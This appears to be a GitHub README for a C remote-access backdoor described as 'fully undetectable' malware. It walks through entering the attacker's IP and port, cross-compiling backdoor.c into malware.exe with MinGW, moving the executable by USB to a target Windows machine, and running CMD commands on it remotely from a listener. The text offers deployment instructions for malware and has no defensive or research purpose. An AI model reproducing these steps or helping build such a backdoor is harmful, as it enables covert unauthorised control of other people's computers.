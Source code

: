 # stealthware-backdoor

**Description** : Fully Undetectable Malware Backdoor

**Requisite** : Make sure you have GCC installed in your System

**For Debian-based OS** :

1. Open server.c using a text editor [**$ nano server.c**]

2. Edit and add your own IP Address and random Port no. in the part labelled => **set host IP Address and port [EDIT HERE]**

3. Open backdoor.c using a text editor [**$ nano backdoor.c**]

4. Edit and add the same IP Address and Port no. from server.c in the part labelled => **set host IP Address and port [EDIT HERE]**

5. Compile server.c using GCC [**$ gcc server.c -o server**]

6. Install MinGW [**$ sudo apt-get install mingw-w64**]

7. Compile backdoor.c using MinGW to create .exe file [**$ i686-w64-mingw32-gcc -o malware.exe backdoor.c -lwsock32 -lwininet**]

8. Use USB to transfer **malware.exe** to target Windows machine (must be connected within same network)

9. Run compiled output of server.c in your own machine [**$ ./server**] 

10. Run **malware.exe** on target Windows machine like a normal .exe application (fully undetectable)

11. Use CMD commands to remotely access the target Windows machine from your own machine

12. Type **q** to quit the server and exit.

**Backdoor Mechanism** :

![](backdoor.png) 
